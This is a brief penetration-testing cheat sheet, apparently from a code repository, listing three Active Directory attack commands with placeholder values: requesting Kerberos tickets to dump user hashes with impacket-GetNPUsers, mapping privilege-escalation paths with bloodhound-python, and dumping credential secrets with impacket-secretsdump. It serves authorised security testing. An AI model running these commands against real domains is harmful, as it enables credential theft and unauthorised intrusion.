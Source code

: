 Request TGT & Dump User Hash
`impacket-GetNPUsers fqdn/user -dc-ip ipaddress -no-pass`

Bloodhound-Python PrivEsc Mapping
`bloodhound-python -ns ipaddress -d fqdn -u user -p pass`

Secrets Dump (Impacket)
`impacket-secretsdump domain/username@ipaddress` (Enter user password at prompt)


